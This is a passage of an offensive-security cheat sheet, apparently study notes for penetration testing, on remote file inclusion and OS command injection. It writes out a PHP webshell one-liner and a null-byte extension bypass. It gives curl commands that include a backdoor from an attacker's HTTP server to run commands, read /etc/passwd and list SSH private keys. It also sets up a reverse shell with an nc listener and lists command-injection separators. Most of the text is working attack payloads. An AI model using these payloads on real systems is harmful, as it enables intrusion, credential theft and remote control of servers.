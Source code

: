 ### Template LFI and directory traversal - Nuclei
https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/fuzzing/linux-lfi-fuzzing.yaml
https://raw.githubusercontent.com/CharanRayudu/Custom-Nuclei-Templates/main/dir-traversal.yaml

## Remote File Inclusion (RFI)
### RFI to Webshell with null byte for image extension bypass
```
echo "<?php echo shell_exec($_GET['cmd']); ?>" > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.php%00.png
```

### RFI to Webshell with txt
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.txt&cmd=ipconfig
```
```
9.2.3. Remote File Inclusion (RFI)
the allow_url_include option needs to be enabled to leverage RFI
setup python server 80
/usr/share/webshells/php/simple-backdoor.php
python3 -m http.server 80
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=cat%20/etc/passwd"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls%20-la%20/home/<user>/"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls%20-la%20/home/<User>/.ssh"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls%20-la%20/home/<User>/.ssh/authorized_keys"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls%20-la%20/home/<User>/.ssh/id_rsa"
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>/simple-backdoor.php&cmd=ls%20-la%20/home/<User>/.ssh/id_ecdsa"


revshell using PHP Ivan Sincek -> https://www.revshells.com/
nc -lvnp 4444
curl "http://example.com/example/index.php?page=http://192.168.xx.<kali>5/shell.php"
```
## OS Command Injection
-> Special Characters
```
& command
&& command
; command
command %0A command
| command
|| command
`command`
$(command)

```